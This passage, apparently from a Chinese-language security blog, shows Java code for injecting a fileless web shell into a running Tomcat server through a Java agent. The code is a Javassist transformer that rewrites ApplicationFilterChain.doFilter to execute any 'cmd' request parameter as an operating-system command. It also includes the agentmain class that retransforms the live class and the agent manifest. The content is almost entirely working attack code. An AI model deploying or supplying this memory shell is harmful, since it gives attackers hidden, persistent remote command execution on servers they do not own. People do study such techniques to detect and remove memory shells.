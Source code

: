 ```java
            CtClass ctClass = classPool.get("org.apache.catalina.core.ApplicationFilterChain");

            //获取目标方法
            CtMethod ctMethod = ctClass.getDeclaredMethod("doFilter");

            //设置方法体
            String body = "{" +
                    "javax.servlet.http.HttpServletRequest request = $1\n;" +
                    "String cmd=request.getParameter(\"cmd\");\n" +
                    "if (cmd !=null){\n" +
                    "  Runtime.getRuntime().exec(cmd);\n" +
                    "  }"+
                    "}";
            ctMethod.setBody(body);

            //返回目标类字节码
            byte[] bytes = ctClass.toBytecode();
            return bytes;

        }catch (Exception e){
            e.printStackTrace();
        }
        return null;
    }
}
```

准备agent

```java
public class agentmain_transform {
    public static void agentmain(String args, Instrumentation inst) throws InterruptedException, UnmodifiableClassException {
        Class [] classes = inst.getAllLoadedClasses();

        //获取目标JVM加载的全部类
        for(Class cls : classes){
            if (cls.getName().equals("org.apache.catalina.core.ApplicationFilterChain")){

                //添加一个transformer到Instrumentation，并重新触发目标类加载
                inst.addTransformer(new Filter_Transform(),true);
                inst.retransformClasses(cls);
            }
        }
    }
}
```

mf文件

```
Manifest-Version: 1.0
Agent-Class: com.drunkbaby.agentmain_transform
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```
